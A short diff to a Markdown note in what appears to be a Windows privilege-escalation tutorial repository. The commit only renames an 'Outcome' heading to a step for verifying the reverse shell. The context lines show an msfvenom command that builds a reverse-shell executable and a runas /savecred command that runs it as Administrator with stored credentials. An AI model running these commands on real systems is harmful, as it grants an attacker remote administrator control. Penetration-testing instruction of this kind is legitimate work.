

Before and after one commit to nickvourd/Windows-Local-Privilege-Escalation-Cookbook, a Markdown page: Notes/StoredCredentialsRunas.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/Notes/StoredCredentialsRunas.md
+++ b/Notes/StoredCredentialsRunas.md
@@ -89,5 +89,5 @@ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.e
 runas /savecred /user:WORKGROUP\Administrator "C:\Windows\Tasks\nikos.exe"
 ```
 
-Outcome:
+5) Verify the new reverse shell from your attacking machine:
 
````
Also changed, not shown: other parts of Notes/StoredCredentialsRunas.md (+1 -5 lines).
